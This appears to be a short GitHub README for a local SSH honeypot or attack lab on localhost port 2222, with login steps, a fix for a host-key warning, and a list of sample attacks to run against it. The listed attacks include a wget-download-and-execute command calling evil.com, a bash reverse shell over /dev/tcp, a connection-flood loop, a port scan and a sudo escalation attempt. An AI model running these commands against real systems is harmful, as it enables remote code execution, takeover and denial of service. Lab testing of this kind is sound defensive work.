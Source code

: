 "# HACK-" 
open cmd : to login 
ssh admin@localhost -p 2222

try worng passwords 
correct password :password

once login try : 
<img width="665" height="657" alt="image" src="https://github.com/user-attachments/assets/e1ff4779-e72b-420d-a613-dd4a13f253c3" />
<img width="805" height="569" alt="image" src="https://github.com/user-attachments/assets/4aa931a3-a8cc-4cdd-8e4c-cbbd13d9c178" />

in cmd if the following error occurs 

""""" @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@    WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!     @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
IT IS POSSIBLE THAT SOMEONE IS DOING SOMETHING NASTY!
Someone could be eavesdropping on you right now (man-in-the-middle attack)!
It is also possible that a host key has just been changed.
The fingerprint for the RSA key sent by the remote host is
SHA256:0c20MU9M8La+J3A0ZHkPyid89qFn3zJfkqB5gorgKUk.
Please contact your system administrator.
Add correct host key in C:\\Users\\Dell/.ssh/known_hosts to get rid of this message.
Offending RSA key in C:\\Users\\Dell/.ssh/known_hosts:1
Host key for [localhost]:2222 has changed and you have requested strict checking.
Host key verification failed.  """""

try : ssh-keygen -R "[localhost]:2222"
then again : ssh admin@localhost -p 2222


other attacks :
Connection Flood:
for /L %i in (1,1,10) do start ssh admin@localhost -p 2222

Malicious Command Injection:
ssh admin@localhost -p 2222 "wget http://evil.com/script.sh -O /tmp/script.sh; chmod +x /tmp/script.sh; /tmp/script.sh"

Reverse Shell Attempt:
ssh admin@localhost -p 2222 "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

Sudo Privilege Escalation:
ssh admin@localhost -p 2222
# Then in session: sudo su

Port Scanning:
for /L %i in (1,1,100) do (
  timeout 1 ssh admin@localhost -p %i 2>nul && echo Port %i is open || echo Port %i is closed
)

